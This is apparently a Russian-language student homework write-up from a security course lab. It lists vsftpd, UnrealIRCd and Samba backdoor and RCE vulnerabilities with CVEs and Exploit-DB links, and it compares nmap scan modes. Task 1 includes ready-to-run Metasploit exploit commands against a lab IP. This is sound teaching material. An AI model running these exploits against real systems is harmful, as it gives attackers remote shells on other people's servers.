 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Петровский Дмитрий`


### Инструкция по выполнению домашнего задания

   1. Сделайте `fork` данного репозитория к себе в Github и переименуйте его по названию или номеру занятия, например, https://github.com/имя-вашего-репозитория/git-hw или  https://github.com/имя-вашего-репозитория/7-1-ansible-hw).
   2. Выполните клонирование данного репозитория к себе на ПК с помощью команды `git clone`.
   3. Выполните домашнее задание и заполните у себя локально этот файл README.md:
      - впишите вверху название занятия и вашу фамилию и имя
      - в каждом задании добавьте решение в требуемом виде (текст/код/скриншоты/ссылка)
      - для корректного добавления скриншотов воспользуйтесь [инструкцией "Как вставить скриншот в шаблон с решением](https://github.com/netology-code/sys-pattern-homework/blob/main/screen-instruction.md)
      - при оформлении используйте возможности языка разметки md (коротко об этом можно посмотреть в [инструкции  по MarkDown](https://github.com/netology-code/sys-pattern-homework/blob/main/md-instruction.md))
   4. После завершения работы над домашним заданием сделайте коммит (`git commit -m "comment"`) и отправьте его на Github (`git push origin`);
   5. Для проверки домашнего задания преподавателем в личном кабинете прикрепите и отправьте ссылку на решение в виде md-файла в вашем Github.
   6. Любые вопросы по выполнению заданий спрашивайте в чате учебной группы и/или в разделе “Вопросы по заданию” в личном кабинете.
   
Желаем успехов в выполнении домашнего задания!
   
### Дополнительные материалы, которые могут быть полезны для выполнения задания

1. [Руководство по оформлению Markdown файлов](https://gist.github.com/Jekins/2bf2d0638163f1294637#Code)

---

### Задание 1

![Описание](./img/1.1.png)
![Описание](./img/1.2.png)


1. vsftpd 2.3.4 – Backdoor Command Execution (CVE-2011-2523)
Описание: В этой версии VSFTPD есть бэкдор, позволяющий злоумышленнику получить shell на сервере, отправив специальную последовательность символов в поле имени пользователя.

Exploit-DB: https://www.exploit-db.com/exploits/17491

Команда для эксплуатации (в Metasploit):

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.130.70
exploit
2. UnrealIRCd 3.2.8.1 – Backdoor (CVE-2010-2075)
Описание: В некоторых сборках UnrealIRCd был встроен бэкдор, позволяющий выполнить произвольные команды.

Exploit-DB: https://www.exploit-db.com/exploits/16922

3. Samba (usermap_script) – RCE (CVE-2007-2447)
Описание: Уязвимость в Samba позволяет выполнить код через неправильную обработку скриптов в smb.conf.

Exploit-DB: https://www.exploit-db.com/exploits/16320

msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.130.70
exploit

---

### Задание 2

![Описание](./img/2.1.png)
![Описание](./img/2.2.png)
![Описание](./img/2.3.png)
![Описание](./img/2.4.png)
![Описание](./img/2.5.png)
![Описание](./img/2.6.png)
![Описание](./img/2.7.png)
![Описание](./img/2.8.png)
![Описание](./img/2.9.png)

1. Чем отличаются режимы сканирования?

| Режим      | Тип пакетов        | Ответ сервера (открытый порт)       | Ответ сервера (закрытый порт)  |
|------------|--------------------|-------------------------------------|--------------------------------|
| SYN        | TCP SYN            | SYN-ACK                             | RST                            |
| FIN        | TCP FIN            | Нет ответа                          | RST                            |
| Xmas       | TCP FIN+PSH+URG    | Нет ответа                          | RST                            |
| UDP        | UDP-датаграммы     | Нет ответа / данные сервиса         | ICMP Port Unreachable          |

2. Как отвечает сервер?
SYN: Открытый порт → SYN-ACK, закрытый → RST.

FIN/Xmas: Открытый порт → молчит, закрытый → RST.

UDP: Открытый порт → молчит или данные сервиса, закрытый → ICMP Port Unreachable.